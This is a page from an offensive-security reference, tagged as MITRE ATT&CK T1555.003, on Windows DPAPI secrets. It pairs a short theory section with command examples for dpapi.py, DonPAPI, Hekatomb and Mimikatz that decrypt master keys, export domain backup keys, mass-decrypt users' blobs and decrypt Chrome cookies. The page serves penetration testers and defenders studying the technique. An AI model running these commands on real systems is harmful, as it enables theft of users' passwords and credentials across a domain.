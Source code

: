 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
### DPAPI.py

&#x20;[Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) can be used to interact with DPAPI.

```bash
# Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET --export
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

### DonPAPI

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](broken-reference), [pass-the-ticket](broken-reference) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```

### Hekatomb

[Hekatomb](https://github.com/Processus-Thief/HEKATOMB) (python script) can also be used. It connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers and uses Domain backup keys to decrypt them.

```bash
# Obtain the backup keys & use it to decrypt all blob from users
hekatomb $DOMAIN/$USER:$PASSWORD@$TARGET

# Decrypt all blob from users using saved backup key
hekatomb -pkv /path/to/backup_key.pvk $DOMAIN/$USER:$PASSWORD@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract, decrypt or use specific master keys using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}
